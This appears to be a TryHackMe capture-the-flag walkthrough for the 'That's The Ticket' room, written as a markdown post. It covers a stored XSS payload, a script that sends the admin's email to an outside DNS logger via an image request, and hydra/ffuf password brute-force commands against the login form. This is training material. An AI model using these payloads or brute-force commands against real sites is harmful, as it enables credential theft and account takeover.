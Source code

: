 ```yaml
---
date: 2025-02-10
categories: [CTF, THM]
title: "THM - That's The Ticket"
tags: ['hydra', 'ffuf', 'nmap', 'privilege escalation', 'rce', 'xss', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "That's The Ticket - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - That's The Ticket

NMAP

![image1](../resources/59b71bff8cea4b2c8d91bf4ce57eed3c.png)
 
- Visit website:
Register an account

- Inspecting the message field:

![image2](../resources/12ab7561f7d54f75b03c89d6564e4636.png)

- We can try XSS:
(Close off the existing textarea tag first)

```js
</textarea> <script>alert(1)</Script> 
```
or use prompt(1) instead


![image3](../resources/113c81c49dd64c40bd8894c342b46aae.png)

- It's vulnerable

- The cookies are set as HttpOnly and could not be extracted by XSS directly

![image4](../resources/376d11080e20470585cf8474553ea53d.png)

- Room hint:

![image5](../resources/87aab15161f949da98674f2f057ca08f.png)


![image6](../resources/87923bcc9a264223a3afe3baeb009864.png)

- Using the XSS vulnerability, do a call back to the DNS logger (above)

`</textarea> <img src="http://079a105aecaee7a7a858eca97499a96e.log.tryhackme.tech">`

- Received 4 hits (3 from us and once from the server - maybe admin)


![image7](../resources/766f4dcc91084210ac47ae6e45a4b8b0.png)

- Get Admin's email:

![image8](../resources/351e6e93882347dda4d8ab127b3faefb.png)

```
</textarea>
<script>
    var email_first = document.getElementById("email").innerHTML.split("@")[0];
    var email_second = document.getElementById("email").innerHTML.split("@")[1];
    var href = "http://localhost." + email_first + "." + email_second + ".40a18b725233ea050562beb6ceaef55d.log.tryhackme.tech/test";
    new Image().src = href;
</script>

```

![image9](../resources/3d86e79e8f894e749ec60caa5c146c74.png)

Don't need subdomain in there really (localhost) - still works


![image10](../resources/41cfa3cce05a4e879e3cf35ad675c754.png)

- Got admin email:
**adminaccount@itsupport.thm**

- Bruteforce the login site:

```bash
hydra -l adminaccount@itsupport.thm -P /usr/share/wordlists/rockyou.txt 10.10.41.5 http-post-form "/login:email=adminaccount@itsupport.thm&password=^PASS^:Invalid"

ffuf -w /usr/share/wordlists/rockyou.txt -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.190.207/login -fw 475 -H "Content-Type: application/x-www-form-urlencoded"

```

**<u>Another way:</u>**

Clusterbomb - Save POST request from Burp and edit the parameters:

```bash
ffuf -request post.txt -request-proto http -mode clusterbomb -w user.txt:UFUZZ -w /usr/share/wordlists/rockyou.txt:PFUZZ -fc 302

```

![image11](../resources/150619e150ac46e891d9019105a8d2f6.png)

**123123**

- Log in with admin:

![image12](../resources/c406ef06134546a4b16cbf57891bd4c6.png)


![image13](../resources/61fb5c9ca2a343c68516b8f576ea5cc6.png)